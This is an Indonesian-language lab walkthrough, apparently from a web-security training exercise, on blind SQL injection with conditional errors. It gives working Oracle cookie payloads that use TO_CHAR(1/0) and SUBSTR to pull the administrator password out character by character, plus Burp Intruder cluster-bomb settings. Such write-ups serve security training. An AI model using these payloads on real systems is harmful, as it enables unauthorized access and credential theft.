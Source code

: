 # **Blind SQL Injection dengan Conditional Errors** (Bahasa Indonesia)

Lab ini memiliki kerentanan blind SQL injection pada cookie pelacakan. Aplikasi tidak mengembalikan hasil query, tetapi memberikan pesan kesalahan khusus jika query SQL menghasilkan error. Anda dapat mengeksploitasi celah ini untuk menemukan password pengguna administrator dan login sebagai admin.

---

### **Langkah-Langkah Eksploitasi**

#### **1. Uji Kerentanan**
Masukkan payload berikut ke header cookie:
```plaintext
Cookie: TrackingId=9HCLCYU9VeK78knn'+and'1'='1
```
Jika query berhasil (tidak error), aplikasi akan tetap merespon seperti biasa.

#### **2. Trigger Error untuk Validasi**
Gunakan payload berikut untuk memaksa error:
```sql
Cookie: TrackingId=9HCLCYU9VeK78knn'+AND+(SELECT+CASE+WHEN+(1=1)+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+dual)='a
```
- **1=1** menghasilkan error **500**.
- **1=2** menghasilkan status normal **200**.

Payload Oracle menggunakan fungsi `TO_CHAR(1/0)` untuk memaksa pembagian dengan nol (error).

---

#### **3. Cari Password Admin dengan Brute Force**
Gunakan fungsi Oracle seperti `SUBSTR` untuk mengambil karakter password:
```sql
Cookie: TrackingId=9HCLCYU9VeK78knn'+AND+(SELECT+CASE+WHEN+((SUBSTR((SELECT+password+FROM+users+WHERE+username+=+'administrator'),1,1))='a')+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+dual)='a;
```

**Penjelasan Query:**
- `SUBSTR((SELECT password FROM users WHERE username='administrator'),1,1)`:
  - Mengambil karakter pertama password admin.
- `CASE WHEN ... THEN TO_CHAR(1/0)`:
  - Jika karakter cocok (misalnya 'a'), query menghasilkan error.
  - Jika tidak cocok, query berjalan normal.

---

#### **4. Automasi dengan Intruder dan Cluster Bomb**
1. **Gunakan Burp Suite Intruder**:
   - Kirim permintaan ke Intruder.
   - Pilih lokasi karakter password dengan marker (`§`).
   - Contoh:
     ```
     Cookie: TrackingId=4if4HB4swUlejCm0'+AND+(SELECT+CASE+WHEN+((SUBSTR((SELECT+password+FROM+users+WHERE+username+=+'administrator'),§1§,1))='§a§')+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+dual)='a;
     ```
2. **Konfigurasi Cluster Bomb**:
   - Parameter 1: Posisi karakter (1, 2, 3, ...).
   - Parameter 2: Kemungkinan nilai (a-z, 0-9).

3. **Analisis Respon**:
   - **500 Internal Server Error** menandakan karakter cocok.
   - Lanjutkan hingga seluruh password ditemukan.

---

### **Contoh Hasil**
1. **Karakter Pertama**: Respon menunjukkan karakter pertama adalah `0`.
2. **Lanjutkan** hingga menemukan seluruh password, misalnya: `01k6j5tbrjpd9lpdk4zs`.

---

### **Referensi**
- [Blind SQL Injection](https://portswigger.net/web-security/sql-injection/blind)
- [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

### **Ilustrasi**

#### **Langkah Uji Kerentanan**
- **1=1**: Menghasilkan error **500**.
- **1=2**: Respon normal **200**.

